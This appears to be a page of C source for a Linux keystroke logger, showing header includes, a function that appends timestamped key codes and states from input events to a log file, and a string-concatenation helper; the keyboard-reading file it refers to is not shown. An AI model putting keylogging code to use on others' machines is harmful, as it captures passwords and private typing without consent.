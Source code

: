 ```
*/

#include <dirent.h>
#include <errno.h>
#include <fcntl.h>
#include <linux/input.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <time.h>
#include <unistd.h>

/*
//
// importing utility functions
//
*/

#include "utils/logger.c"
#include "utils/helpers.c"
#include "utils/keyboard.c"
```

Here are 3 more files included for obvious purposes.

CODE:- `utils/logger.c` (logger function)

```
void log_in_file(struct input_event ev)
{
  printf("Logging");
    time_t t = time(NULL);
    struct tm tm = *localtime(&t);
    FILE* fptr = fopen(LOG_FILE, "a");
    // print( [date time] keycode keyvalue ) - keyvalue => {press; lift; long press}
    fprintf(fptr, "[ %d-%02d-%02d %02d:%02d:%02d ]   key %i state %i\n", tm.tm_year + 1900, tm.tm_mon + 1, tm.tm_mday, tm.tm_hour, tm.tm_min, tm.tm_sec, ev.code, ev.value);
    if(tm.tm_sec == 0)
    {
      /* Do whatever you want to do here
        It is like a scheduler section.*/

      //fprintf(fptr, "%s\n", "1 minute check\n");
    }
    fclose(fptr);
    printf("  logged\n");
}
```

CODE:- `utils/helpers.c` (now only used for concatination of 2 strings)
```
char* concat(const char *s1, const char *s2)
{
    const size_t len1 = strlen(s1);
    const size_t len2 = strlen(s2);
    char *result = malloc(len1 + len2 + 1); // +1 for the null-terminator
    // in real code you would check for errors in malloc here
    memcpy(result, s1, len1);
    memcpy(result + len1, s2, len2 + 1); // +1 to copy the null-terminator
    return result;
}
```
